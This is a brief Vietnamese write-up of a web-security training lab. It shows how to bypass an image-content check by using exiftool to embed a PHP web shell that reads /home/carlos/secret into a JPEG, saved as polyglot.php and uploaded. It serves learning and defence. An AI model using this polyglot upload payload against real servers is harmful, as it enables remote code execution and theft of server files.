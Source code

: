![](../Files/10.png)

### Mô tả
> Lab này chứa một chức năng tải lên hình ảnh dễ bị tấn công. Mặc dù nó kiểm tra nội dung của tệp để xác minh rằng đó là hình ảnh chính hãng, nhưng vẫn có thể tải lên và thực thi mã phía máy chủ.
>
> Để giải quyết phòng thí nghiệm, hãy tải lên một web shell PHP cơ bản, sau đó sử dụng nó để lọc nội dung của tệp / home / carlos / secret. Gửi bí mật này bằng cách sử dụng nút được cung cấp trong biểu ngữ phòng thí nghiệm.
>
> Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter
### Giải quyết
- Vì trang web kiểm tra nội dung của tệp để xác minh nó là hình ảnh, từ đó có thể khai thác điều này để chèn web shell vào trong nội dung ảnh bằng công cụ exiftool.
- Chọn 1 bức ảnh bình thường bất kỳ và sử dụng lệnh: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
`
- Cuối cùng, tải lên file `polyglot.php`, mở file và sử dụng chuỗi ký tự tìm được để submit.
###### Solved!
